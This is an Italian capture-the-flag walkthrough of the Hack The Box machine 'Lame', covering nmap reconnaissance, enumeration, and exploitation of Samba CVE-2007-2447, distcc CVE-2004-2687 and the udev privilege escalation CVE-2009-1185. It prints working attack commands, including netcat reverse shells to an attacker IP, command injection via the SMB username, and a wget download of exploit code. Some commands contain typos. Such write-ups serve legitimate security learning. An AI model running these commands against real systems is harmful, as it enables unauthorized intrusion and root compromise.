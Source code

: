 # Lame

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.3
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 21:** File Transfer Protocol \(FTP\) versione 2.3.4
* **Porta 22:** OpenSSH versione 4.7p1
* **Porte 139 e 445:** Samba v3.0.20-Debian

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-1.png" />
</p>

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-2.png" />
</p>

Prima di iniziare a lavorare su queste porte, lancio una scansione nmap più completa in background.

```text
sudo nmap -sC -sV -O -p- -oA /usr/share/nmap/full 10.10.10.3
```

Di seguito il risultato della seconda scansione:

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-3.png" />
</p>

E' possibile notare la presenza di una nuova porta che non veniva mostrata nella scansione precedente.

* **Porta 3632**: distributed compiler daemon distcc versione 1.

Esco da questa fase con quattro differenti punti di ingresso da testare.

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 21 vsftpd v2.3.4

Una semplice ricerca su google mi mostra che questa versione è vulnerabile all'esecuzione di un comando backdoor che viene attivato inserendo una stringa come username che contiene i caratteri “:\)”.
Quando la backdoor viene attivata, la macchina di destinazione apre una shell sulla porta 6200.

E' possibile controllare l'effettiva vulnerabilità mediante uno script nmap.

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-4.png" />
</p>

```text
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-5.png" />
</p>

Dall'output dello script capisco che non è possibile sfruttare questa vulnerabilità.

### 2) Porta 22 OpenSSH v4.7p1

Effettuando una rapida ricercaho trovato questo progetto: [OpenSSH 4.7p1 CVE-2008-5161 Exploit](https://github.com/pankajjarial360/OpenSSH_4.7p1).

Lo script openssh_4.7p1.py controlla la versione del servizio SSH per confermare che sia in esecuzione OpenSSH versione 4.7p1. Successivamente, imposta i parametri necessari per un attacco brute-force utilizzando un elenco di nomi utente e password presi da una specifica wordlist.

Una volta avviato e completato l'exploit, lo script recupera tutte le sessioni attive che sono state create e permette di interagire con esse.

Lancio lo script in background e proseguo con l'analisi dei restanti punti di ingresso.

```text
python openssh_4.7p1.py
```

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-8.png" />
</p>

Questa strada richiedeva troppo tempo e per questo motivo l'esecuzione dello script è stata interrotta.

### 3) Porte 139 e 445 Samba v3.0.20-Debian

Utilizziamo smbclient per accedere al server SMB.

```text
smbclient -L 10.10.10.3
```
* **-L**: lista dei serzi disponibili sul server

Noto che la mia macchina è configurata in maniera tale da non connettersi alle versioni SMB precedenti (per motivi di sicurezza).

Per ovviare a questo problema modifico il comando nel modo seguente:

```text
smbclient -L 10.10.10.3 --option='client min protocol=NT1'
```
<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-6.png" />
</p>

**E' disponibile il login anonimo!**

Ora cerco di capire quali sono i permessi sui file condivisi.

```text
smbmap -H 10.10.10.3
```

* **-H**: IP dell'host

Scopro di avere accesso di tipo READ/WRITE sulla cartella tmp.

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-7.png" />
</p>

Effettuando una ricerca veloce noto che questa versione del servizio è [vulnerabile](https://www.cvedetails.com/vulnerability-list/vendor_id-102/product_id-171/version_id-41384/Samba-Samba-3.0.20.html).

Cerco di sfruttare la vulnerabilità [CVE-2007–2447](https://www.cvedetails.com/cve/CVE-2007-2447/) che si basa su un problema legato all'invio di specifici metacaratteri.

```text
"/=`nohup " + payload.encoded + "`"
```

Prima di sfruttare la vulnerabilità, analizzo l'ultimo punto di ingresso rimasto.

### 3) Port 3632 distcc v1

Da una ricerca capisco che il servizio è vulnerabile all'esecuzione di codice da remoto.

Esiste uno script nmap che permette di verificare la presenza di questa vulnerabilità.

```text
nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
```

**E' vulnerabile!**

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-9.png" />
</p>

Quindi ho a disposizione due strade per cercare di bucare questa macchina.

## Exploitation

### 1) Samba

Mi metto in ascolto sulla porta 8080.

```text
nc -nlvp 8080
```

Eseguo il login sul client smb.

```text
smbclient //10.10.10.3/tmp --option='client min protocol=NT1'
```

Inserisco la sequenza di metacaratteri menzionata in precedenza.

```text
logon "/=`nohup nc -nv 10.10.14.5 8080 -e /bin/sh`"
```

**Ho ottenuto una shell dalla macchina lame con privilegi root!**

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-10.png" />
</p>

### 2) Distcc

Utilizzo uno script nmap per sfruttare la vulnerabilità citata precedentemente.

Mi metto in ascolto sulla porta 4444.

```text
nc -nlvp 4444
```

Successivamente, utilizzo lo script nmap per dare vita a una reverse shell.

```text
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.5 4444 -e /bin/bash'"
```

Questa volta non abbiamo una shell con privilegi root.

<p align="center">
  <img src="/Immagini/Linux-Box/Lame/lame-10.png" />
</p>

Per ottenere i privilegi root provo con la vulnerabilità [CVE 2009–1185](https://www.exploit-db.com/exploits/8572).

```text
searchsploit -m 8572.c
```

Avvio un server sulla mia macchina.

```text
python -m SimpleHTTPServer 9000
```

Trasferisco il file alla macchina lame.

```text
wget http://10.10.14.5:9000/8572.c
```

Compilo l'exploit.

```text
gcc 8572.c -o 8572
```

Per eseguirlo mi servono devo:
* Trovare il PID del servizio
* Creare un file nella cartella /tmp e aggiungere una reverse shell in esso

Per ottenre il PID eseguo il seguente comando:

```text
ps -aux | grep devd
```
Creo il file **run** in /tmp e aggiungo una reverse shell all'interno.

```text
cd /tempo
echo '#/bin/bash' > run
echo 'nc -nv 10.10.14.5' 4445 -e /bin/bash' >> run
```

Mi metto in ascolto sulla porta 4445.

```text
nc -nlvp 4445
```

Eseguo l'exploit.

```text
./8572 2661
```

**Ed ecco l'utenza root!**

